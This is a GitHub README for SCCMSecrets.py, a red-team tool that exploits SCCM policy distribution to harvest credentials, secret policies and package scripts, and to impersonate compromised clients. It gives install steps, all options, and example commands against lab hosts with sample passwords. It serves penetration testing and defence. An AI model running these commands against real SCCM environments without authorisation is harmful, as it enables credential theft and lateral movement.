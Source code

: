 # SCCMSecrets

SCCMSecrets.py is an SCCM policies exploitation tool. It goes beyond NAA credentials extraction, and aims to provide a comprehensive approach regarding SCCM policies exploitation. The tool can be executed from various levels of privileges, and will attempt to uncover potential misconfigurations related to policies distribution. It will dump the contents of all secret policies encountered as well as collection variables, in addition to package scripts hosted on the distribution points. Finally, it can be used throughout the intrusion process by configuring it to impersonate legitimate SCCM clients, in order to pivot across device collections.

For more details regarding the tool and its usage, see the associated article at:
https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial

# Installation

You can install SCCMSecrets.py by cloning the repository and installing the dependencies.
```
$ git clone https://github.com/synacktiv/SCCMSecrets
$ cd SCCMSecrets
$ python3 -m venv .venv && source .venv/bin/activate
$ python3 -m pip install -r requirements.txt
```

# Usage

```
$ python3 SCCMSecrets.py --help
                                                                                                                                                                                                                   
 Usage: SCCMSecrets.py [OPTIONS]                                                                                                                                                                                   
                                                                                                                                                                                                                   
╭─ Options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --distribution-point         TEXT     The target distribution point [default: None] [required]                                                                                                               │
│    --client-name                TEXT     The name of the client that will be created in SCCM. An FQDN is expected (e.g. fake.corp.com) [default: None]                                                          │
│    --management-point           TEXT     The client's management point. Only necessary if the management point is not on the same machine as the distribution point. [default: None]                            │
│    --bruteforce-range           INTEGER  The number of package ID to bruteforce when performing anonymous policies scripts dump. Between 0 (00000) and 1048575 (FFFFF) [default: 4095]                          │
│    --extensions                 TEXT     Comma-separated list of extension that will determine which files will be downloaded when retrieving packages scripts [default: .ps1, .bat, .xml, .txt, .pfx]          │
│    --username                   TEXT     The username for a domain account (can be a user account, or - preferably - a machine acount) [default: None]                                                          │
│    --password                   TEXT     The password for a domain account (can be a user account, or - preferably - a machine account) [default: None]                                                         │
│    --registration-sleep         INTEGER  The amount of time, in seconds, that should be waited after registrating a new device. A few minutes is recommended so that the new device can be added to device      │
│                                          collections (3 minutes by default, may need to be increased)                                                                                                           │
│                                          [default: 180]                                                                                                                                                         │
│    --use-existing-device        TEXT     This option can be used to re-run SCCMSecrets.py using a previously registered device; or to impersonate a legitimate SCCM client. In both cases, it expects the path │
│                                          of a folder containing at least a guid.txt file (the SCCM device GUID) and the key.pem file (the client's private key).                                                         │
│                                          [default: None]                                                                                                                                                        │
│    --verbose                             Enable verbose output                                                                                                                                                  │
│    --help                                Show this message and exit.                                                                                                                                            │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands.

> Running SCCMSecrets.py without providing credentials (attempt to exploit automatic device approval for secret policies retrieval, attempt to exploit distribution point anonymous access for external resources dumping).
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test.sccm.lab
```

> Running SCCMSecrets.py with domain user credentials (attempt to exploit automatic device approval for secret policies retrieval, uses provided credentials or anonymous access for external resources dumping). Specify a shorter bruteforce range and specific file extensions to whitelist for external resources dumping.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test2.sccm.lab --bruteforce-range 64 --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf' --username 'franck' --password 'rockthee' --verbose
```

> Running SCCMSecrets.py with domain machine account credentials (register a new approved device allowing to dump secret policies, uses provided credentials or anonymous access for external resources dumping). Specify a longer time to wait after registration to ensure the enrolled device is successfully added to collections before requesting policies.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test3.sccm.lab --verbose --registration-sleep 300 --username 'azule$' --password 'Password123!'
```

> Running SCCMSecrets.py to impersonate a legitimate SCCM client that was compromised. The `CLIENT_DEVICE` folder contains a guid.txt file (GUID of the compromised client) and a key.pem file (the private key of the compromised client).
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test4.sccm.lab --verbose --use-existing-device CLIENT_DEVICE/ 
```
